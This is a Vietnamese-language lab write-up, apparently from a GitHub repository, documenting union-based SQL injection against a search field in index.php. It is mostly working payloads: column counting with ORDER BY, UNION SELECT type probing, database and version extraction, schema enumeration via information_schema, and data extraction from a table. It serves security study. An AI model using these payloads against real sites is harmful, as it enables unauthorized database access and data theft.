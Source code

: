 Người thực hiện: Lê Trần Văn Chương.
Ngày: 05/04/2022.
Mục lục:
- Khai thác SQLi Union Based chức năng search ở trang index.php
## Khai thác SQLi Union Based chức năng search ở trang index.php
1. Kiểm tra xem có tổng cộng bao nhiêu cột dữ liệu trong bảng của DB.
`' ORDER BY 14 #` 
	
2. Vị trí của từng cột dữ liệu trong bảng hiện ở ngoài client (1, 12, 2, 10, 11)
`' UNION SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14 #`
![Hinh 1.!](\img\1.png)

3. Kiểm tra kiểu dữ liệu của từng cột hiện ở ngoài client (1)
`' UNION SELECT 'a',NULL,3,4,5,6,7,8,9,NULL,NULL,NULL,13,14 #` 
![Hinh 2.!](img\2.png)

4. Kiểm tra kiểu dữ liệu của từng cột hiện ở ngoài client (2)
`' UNION SELECT 'a','a',3,4,5,6,7,8,9,NULL,NULL,NULL,13,14 #`
![Hinh 3.!](img\3.png)

5. Kiểm tra kiểu dữ liệu của từng cột hiện ở ngoài client (10)
`' UNION SELECT 'a','a',3,4,5,6,7,8,9,'a',NULL,NULL,13,14 #` 
![Hinh 4.!](img\4.png)

6. Kiểm tra kiểu dữ liệu của từng cột hiện ở ngoài client (11)
`' UNION SELECT 'a','a',3,4,5,6,7,8,9,'a','a',NULL,13,14 #` 
![Hinh 5.!](img\5.png)

7. Kiểm tra kiểu dữ liệu của từng cột hiện ở ngoài client (12)
`' UNION SELECT 'a','a',3,4,5,6,7,8,9,'a','a','a',13,14 #` 
![Hinh 6.!](img\6.png)

8. Kiểm tra thử những cột vừa rồi kiểu dữ liệu có phải là string hay không
`' UNION SELECT 'asd','asd',3,4,5,6,7,8,9,'asd','asd','asd',13,14 #` 
=> Các cột hiện trên client đều có kiểu dữ liệu là string
![Hinh 7.!](img\7.png)

9. Kiểm tra DB hiện tại
`' UNION SELECT database(),2,3,4,5,6,7,8,9,10,11,12,13,14 #` 
![Hinh 8.!](img\8.png)

10.  Version của DB
`' UNION SELECT version(),2,3,4,5,6,7,8,9,10,11,12,13,14 #` 
![Hinh 9.!](img\9.png)

11. Lấy tất cả các table có trong DB
`' UNION SELECT  table_name,2,3,4,5,6,7,8,9,10,11,12,13,14 FROM information_schema.tables #`
(Một số bảng đáng chú ý: `admin_func, payload, user, users, account, accounts`)
![Hinh 10.!](img\10.png)

12. Lấy tất cả các trường trong bảng admin_func
`' UNION SELECT  column_name,2,3,4,5,6,7,8,9,10,11,12,13,14 FROM information_schema.columns WHERE table_name='admin_func' #`
=> từ đây có thể khai thác dữ liệu như mình muốn
![Hinh 11.!](img\11.png)

13.  Ví dụ: tôi khai thác cột `name` và `extension` của bảng `payload`.
`' UNION SELECT  name,extension,3,4,5,6,7,8,9,10,11,12,13,14 FROM payload  #`
![Hinh 12.!](img\12.png)